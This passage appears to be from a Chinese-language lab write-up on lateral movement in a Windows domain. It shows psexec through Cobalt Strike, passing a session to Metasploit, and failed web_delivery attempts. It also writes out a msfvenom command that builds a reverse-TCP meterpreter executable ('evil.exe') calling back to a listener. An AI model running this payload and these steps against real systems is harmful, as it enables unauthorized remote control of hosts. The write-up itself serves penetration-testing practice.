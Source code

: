 之后在target机器中找到psexec

![image-20210514144436713](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514144436713.png)

选择对应账密、子会话和smb的listener

![image-20210514144741159](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514144741159.png)

执行

DC上线成功，且为system权限

![image-20210514145119542](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514145119542.png)

### MSF

CS派生shell给到msf

msf创建监听

![image-20210514151545077](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514151545077.png)

弹一个administrator权限的shell

![image-20210514151134540](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514151134540.png)

接收到session,但是很快就die了

![image-20210514151740703](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514151740703.png)

使用web_delivery模块，target选择powershell

![image-20210514153229272](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514153229272.png)

蚁剑和CS执行后一直没弹回session

![image-20210514154122735](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514154122735.png)

![image-20210514154044218](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514154044218.png)

登录win7发现powershell已经崩掉了



msfveom生成exe木马上传执行

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.146.128 lport=5555 -f exe >evil.exe
```

![image-20210514154753527](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514154753527.png)

成功弹回meterpreter

![image-20210514155011079](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514155011079.png)

当前aministrator权限，可以getsystem提个权
